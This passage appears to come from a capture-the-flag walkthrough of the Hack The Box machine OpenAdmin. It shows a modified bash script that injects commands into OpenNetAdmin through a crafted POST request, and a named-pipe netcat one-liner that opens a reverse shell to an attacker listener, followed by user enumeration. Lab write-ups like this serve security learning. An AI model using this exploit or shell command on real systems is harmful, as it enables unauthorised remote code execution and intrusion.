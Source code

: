This is how it looks like.

{% include image.html image_alt="8cae4dae.png" image_src="/assets/images/posts/openadmin-htb-walkthrough/8cae4dae.png" %}

I think we have the exploit we need in EDB-ID [47691](https://www.exploit-db.com/exploits/47691). After understanding what the exploit does, I modified it a little to suit my needs.

<div class="filename"><span>cmd.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.171
CMD=$(urlencode $1)

curl -i \
     -s \
     -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";$CMD;echo \"END\"&xajaxargs[]=ping" \
     $HOST/ona/ \
| sed '/BEGIN/,/END/!d' \
| sed -r -e '1d' -e '$d'
```

Let's give it a shot.

{% include image.html image_alt="d65b807d.png" image_src="/assets/images/posts/openadmin-htb-walkthrough/d65b807d.png" %}

Awesome.

## Low-Privilege Shell

With that, it's pretty trivial to get a reverse shell albeit a low-privileged one. On one hand, send a reverse shell back to myself, and on the other hand set up a listener to receive the reverse shell, you know, the standard stuff.

```
# ./cmd.sh "rm -rf /tmp/p; mknod /tmp/p p; /bin/bash </tmp/p | nc 10.10.15.195 1234 >/tmp/p"
```

{% include image.html image_alt="e7783893.png" image_src="/assets/images/posts/openadmin-htb-walkthrough/e7783893.png" %}

Bam. There you have it.

### Getting `user.txt`

During enumeration of `www-data`\'s account, I notice that there are two accounts in the same group: `jimmy` (1000) and `joanna` (1001).

{% include image.html image_alt="2ea45d44.png" image_src="/assets/images/posts/openadmin-htb-walkthrough/2ea45d44.png" %}

They are both are in the `internal` group.

{% include image.html image_alt="6fd57427.png" image_src="/assets/images/posts/openadmin-htb-walkthrough/6fd57427.png" %}
